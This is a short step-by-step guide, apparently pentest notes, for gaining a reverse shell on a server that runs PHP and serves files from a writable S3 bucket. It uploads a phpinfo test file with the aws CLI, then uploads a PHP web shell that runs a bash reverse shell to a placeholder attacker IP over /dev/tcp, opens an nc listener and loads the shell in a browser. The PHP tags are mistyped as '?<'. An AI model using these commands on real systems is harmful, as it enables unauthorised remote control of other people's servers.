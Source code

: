 ### Requirements: The server runs php.

### Steps:

#### 1) echo '<?php phpinfo();?<' > test.php 

#### 2) aws --endpoint-url=http://s3.DOMAIN.com s3 cp test.php s3://BUCKET_NAME (These 2 commands will verify if the server actually runs php)

### If yes then:

#### 3) echo "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/OUR_IP/PORT 0>&1 \"');?< > shell.php

#### 4) aws --endpoint-url=http://s3.DOMAIN.com s3 cp shell.php s3://BUCKET_NAME (Create a php reverse shell, then upload it to the server)

#### 5) Setup listener nc -lvnp PORT

#### 6) Browse to http://DOMAIN.com/shell.php

